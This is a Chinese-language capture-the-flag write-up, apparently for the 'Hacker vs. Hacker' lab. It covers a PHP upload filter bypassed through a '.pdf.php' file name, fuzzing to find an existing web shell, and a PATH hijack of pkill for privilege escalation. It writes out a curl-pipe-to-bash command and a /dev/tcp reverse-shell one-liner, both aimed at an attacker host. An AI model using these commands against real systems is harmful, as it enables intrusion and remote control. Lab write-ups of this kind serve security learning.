

# Hacker vs. Hacker


只开放了80和22端口

进行目录扫描


我们上传文件的时候发现泄露了源代码


```
Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}

-->
```

**`strpos`**: 这是一个 PHP 函数，用于查找一个字符串在另一个字符串中首次出现的位置。如果找到，函数返回该位置的索引；如果未找到，则返回 `false`。

那我们构造hack.pdf.php就可以进行绕过


但是事与愿违，我们猜测黑客修复了这个漏洞

可能他上传了*.pdf.php文件

我们用fuff进行模糊测试


```
ffuf -u http://10.10.37.196/cvs/FUZZ.pdf.php -w /usr/share/seclists/Discovery/Web-Content/common.txt
```



扫出一个shell


成功猜出参数


我们使用一句话shell

curl http://10.8.137.162/shell.sh | bash


我们ssh登录后，几秒后就会掉


是因为crontab的原因

这个命令会列出 `/dev/pts` 目录下的所有伪终端（pseudo terminal），并对每个伪终端执行以下操作：

我们发现pkill使用的相对路径，我们可以去将恶意文件放到/home/lachlan/bin，因为会从这里先进行检索。

```
echo "bash -c 'bash -i >& /dev/tcp/10.8.137.162/4444 0>&1'" > bin/pkill ; chmod  +x bin/pkill
```


